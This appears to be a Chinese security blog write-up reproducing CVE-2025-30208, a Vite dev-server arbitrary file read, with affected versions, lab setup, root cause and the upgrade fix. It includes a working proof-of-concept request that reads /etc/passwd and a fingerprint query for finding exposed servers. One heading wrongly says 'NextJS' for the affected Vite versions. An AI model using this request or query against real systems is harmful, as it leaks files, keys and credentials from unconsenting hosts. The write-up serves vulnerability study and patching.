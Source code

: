 #  漏洞复现篇 | Vite任意文件读取漏洞：CVE-2025-30208，最新！   
原创 零日安全实验室  零日安全实验室   2025-03-28 18:26  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcmMp0RkmiboAq1WRLSjRn6Ek9WSyXV6fsAK2lccNrAiaDKRxYicWd50C6Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcGbLNdw9RqsIC0YAHcS8BfmicneHGe0jK4yh58B4qJM2PF425zv0Gl4Q/640?wx_fmt=png&from=appmsg "")  
  
  
免责声明！  
  
本  
公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法。  
  
  
  
  
0x01 漏洞描述  
  
Vite  
是一款现代化的前端开发构建工具，它提供了快速的开发服务器和高效的构建能力，广泛应用于  
Vue.js  
项目的开发过程中。  
  
由于  
Vite  
开发服务器在处理特定  
URL  
请求时，没有对请求的路径进行严格的安全检查和限制，导致攻击者可以绕过保护机制，非法访问项目根目录外的敏感文件。攻击者只需在浏览器输入一个  
URL  
，就可能会造成源码、  
SSH  
密钥、数据库账号、用户数据等目标机器上的任意文件信息泄露。  
  
**0x02 影响范围**  
  
目前受影响的  
NextJS  
版本：  
  
    6.2.0 <= Vite <= 6.2.2  
  
    6.1.0 <= Vite <= 6.1.1  
  
    6.0.0 <= Vite <= 6.0.11  
  
    5.0.0 <= Vite <= 5.4.14  
  
    Vite <= 4.5.9   
  
0x03 资产测绘  
```
body="/@vite/client"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lccTSng5fax2GfQ54oViaib8YfQB7RbnovryvhAlHa8Gic1Aoswhiaz4Sxhg/640?wx_fmt=png&from=appmsg "")  
  
0x04 环境搭建  
  
1、克隆项目代码：  
```
git clone https://github.com/ai862/Vite-demo.git
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcGtHbsavIic0cEejR1VAdK5HdpjicuCLYibLYyRvDJ6zZbde4JbMsxCwUw/640?wx_fmt=png&from=appmsg "")  
  
2、更新apt：  
```
apt-get update
```  
```
```  
```
apt install npm -y
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcfVy8nSdYr8PKpVaABibqBK88OoqjOtBL6icTYiclbXT6rcVqJpc9UEh1Q/640?wx_fmt=png&from=appmsg "")  
  
4、安装项目依赖：  
```
npm install --legacy-peer-deps
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcwa8q2RISibC25Kv1m4vE7HmAGCJPoHibtoIdrfWHUKDRBsXAlprj436w/640?wx_fmt=png&from=appmsg "")  
  
5、启动开发服务器：  
```
npm run dev
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcZgDOLQmGkpia0zspTwNBFOF0ur1icg8ibgrpmMpic42yB86zvQncdVXCbQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcS4dwlkSW2subAINzPFNBJfaOLrHWFguJl3unN4LBrO9hUVnzm1UmSQ/640?wx_fmt=png&from=appmsg "")  
  
0x05 漏洞利用及复现过程  
  
触发的POC：  
```
GET /@fs/etc/passwd?import&raw?? HTTP/1.1
Content-Type: application/json
Host: 192.168.127.128:4173/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcqtp7mqwQaVfze2XICojzUIqChic3q3n8XfQ7LWbWh0EtopeS2dhWSmw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xBz3rYsYopYWUvNBGKibz4lcIW5ScMrwjejtcQQykhdErox7GdqQ0jS8v2LaNq1kic1rG897iaJQ7ibog/640?wx_fmt=png&from=appmsg "")  
  
0x06 漏洞触发原理  
  
原始代码直接使用未经处理的  
url  
进行校验。攻击者可在  
URL  
中添加  
?raw??  
或  
?import&raw??  
绕过此限制。  
  
正则匹配绕过  
  
rawRE/urlRE  
的正则设计可能无法处理尾部特殊符号。  
  
例如，假设  
rawRE  
设计为  
/^\/@fs\//  
，但实际  
URL  
为  
/@fs/etc/passwd?  
，正则匹配仍会通过（  
?  
被视为查询参数起始符，但未正确剥离）。  
  
0x07 修复方案  
  
升级  
Vite  
版本  
- >=6.2.3  
- >=6.1.2, <6.2.0  
- >=6.0.12, <6.1.0  
- >=5.4.15, <6.0.0  
- >=4.5.10, <5.0.0  
Vite  
的官方修复在上文已分析  
  
